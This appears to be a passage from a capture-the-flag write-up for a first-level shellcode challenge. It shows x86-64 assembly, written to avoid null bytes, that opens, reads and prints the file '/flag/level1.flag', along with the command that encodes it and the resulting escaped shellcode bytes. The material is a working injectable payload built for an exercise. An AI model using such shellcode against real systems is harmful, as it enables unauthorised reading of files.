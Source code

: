 ```
bits 64

_start:

mov dword [rsp], '/fla'     ; build filename on stack
mov dword [rsp+4], 'g/le'
mov dword [rsp+8], 'vel1'
mov dword [rsp+12], '.fla'
push 'g'
pop rcx
mov [rsp+16], ecx

lea rdi, [rsp]              ; rdi now points to filename '/flag/level1.flag'
xor rsi, rsi                ; rsi contains O_RDONLY, the mode with which we'll open the file
xor rax, rax
inc rax
inc rax                     ; syscall open = 2
syscall 

mov rbx, rax                ; filehandle of opened file

lea rsi, [rsp]              ; rsi is the buffer to which we'll read the file
mov rdi, rbx                ; rbx was the filehandle
push byte 0x7f              ; read 127 bytes. if we stay below this value, the generated opcode will not contain null bytes
pop rdx
xor rax, rax                ; syscall read = 0
syscall

lea rsi, [rsp]              ; the contents of the file were on the stack
xor rdi, rdi
inc rdi                     ; filehandle; stdout!
mov rdx, rax                ; rax was amount of bytes read by syscall read
xor rax, rax
inc rax
syscall                     ; syscall write = 1

push byte 60                ; some bytes left...
pop rax                     ; exit cleanly
syscall

```

To assemble and generate the shellcode in the format which the challenge wants, I used this command:

```bash
$ echo; nasm -f bin ./level1-nonulls.asm; xxd -c 1 ./level1-nonulls | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./level1-nonulls

\xc7\x04\x24\x2f\x66\x6c\x61\xc7\x44\x24\x04\x67\x2f\x6c\x65\xc7\x44\x24\x08\x76\x65\x6c\x31\xc7\x44\x24\x0c\x2e\x66\x6c\x61\x6a\x67\x59\x89\x4c\x24\x10\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x0f\x05\x48\x89\xc3\x48\x8d\x34\x24\x48\x89\xdf\x6a\x7f\x5a\x48\x31\xc0\x0f\x05\x48\x8d\x34\x24\x48\x31\xff\x48\xff\xc7\x48\x89\xc2\x48\x31\xc0\x48\xff\xc0\x0f\x05\x6a\x3c\x58\x0f\x05
100 ./level1-nonulls
```
